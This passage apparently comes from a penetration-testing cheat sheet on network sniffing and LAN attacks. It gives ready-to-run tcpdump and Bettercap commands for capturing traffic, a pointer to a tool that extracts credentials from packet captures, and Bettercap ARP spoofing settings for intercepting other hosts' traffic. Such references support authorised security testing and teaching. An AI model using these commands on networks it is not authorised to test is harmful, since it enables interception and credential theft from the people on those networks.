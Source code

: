 If a switched Ethernet network is configured properly, you will only see broadcast frames and material destined for your MAC address.

### TCPDump

```bash
sudo tcpdump -i <INTERFACE> udp port 53 #Listen to DNS request to discover what is searching the host
tcpdump -i <IFACE> icmp #Listen to icmp packets
sudo bash -c "sudo nohup tcpdump -i eth0 -G 300 -w \"/tmp/dump-%m-%d-%H-%M-%S-%s.pcap\" -W 50 'tcp and (port 80 or port 443)' &"
```

One can, also, capture packets from a remote machine over an SSH session with Wireshark as the GUI in realtime.

```
ssh user@<TARGET IP> tcpdump -i ens160 -U -s0 -w - | sudo wireshark -k -i -
ssh <USERNAME>@<TARGET IP> tcpdump -i <INTERFACE> -U -s0 -w - 'port not 22' | sudo wireshark -k -i - # Exclude SSH traffic
```

### Bettercap

```bash
net.sniff on
net.sniff stats
set net.sniff.output sniffed.pcap #Write captured packets to file
set net.sniff.local  #If true it will consider packets from/to this computer, otherwise it will skip them (default=false)
set net.sniff.filter #BPF filter for the sniffer (default=not arp)
set net.sniff.regexp #If set only packets matching this regex will be considered
```

### Wireshark

Obviously.

### Capturing credentials

You can use tools like [https://github.com/lgandx/PCredz](https://github.com/lgandx/PCredz) to parse credentials from a pcap or a live interface.

## LAN attacks

### ARP spoofing

ARP Spoofing consist on sending gratuitous ARPResponses to indicate that the IP of a machine has the MAC of our device. Then, the victim will change the ARP table and will contact our machine every time it wants to contact the IP spoofed.

#### **Bettercap**

```bash
arp.spoof on
set arp.spoof.targets <IP> #Specific targets to ARP spoof (default=<entire subnet>)
set arp.spoof.whitelist #Specific targets to skip while spoofing
set arp.spoof.fullduplex true #If true, both the targets and the gateway will be attacked, otherwise only the target (default=false)
set arp.spoof.internal true #If true, local connections among computers of the network will be spoofed, otherwise only connections going to and coming from the Internet (default=false)
```
